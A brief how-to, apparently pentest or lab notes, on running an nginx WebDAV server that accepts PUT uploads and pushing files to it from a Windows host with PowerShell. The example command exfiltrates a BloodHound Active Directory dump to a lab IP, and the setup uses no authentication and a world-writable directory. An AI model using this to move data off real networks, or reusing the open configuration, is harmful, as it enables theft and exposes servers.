 # How to create a webdav server with nginx



Go to /etc/nginx/sites-available and create a file called webdav with:

    server{
            listen 8001 default_server;
            server_name webdav.server;
            location / {
                root /var/www/upload;
                dav_methods PUT;
            }
    }


Then create the /var/www/upload directory

    sudo mkdir /var/www/upload
    sudo chmod 777 /var/www/upload

Create a symbolic link in sites-enabled

    cd /etc/nginx/sites-enabled
    sudo ln -s /etc/nginx/sites-available/webdav

Restart nginx

    sudo systemctl restart nginx

Finally check if server is up and listening on port 8001

    ss -nltp

## Upload a file from remote host to the webdav server using powershell

    Invoke-WebRequest -uri http://<webdav_server_ip>:<web_davserver_port>/<file_name_to_be_saved_in_the_server> -Method Put -Infile <path_to_file_we_want_to_upload>

    Invoke-Webrequest -uri http://10.10.14.105:8001/bh.zip -Method Put -Infile 20241112043034_BloodHound.zip
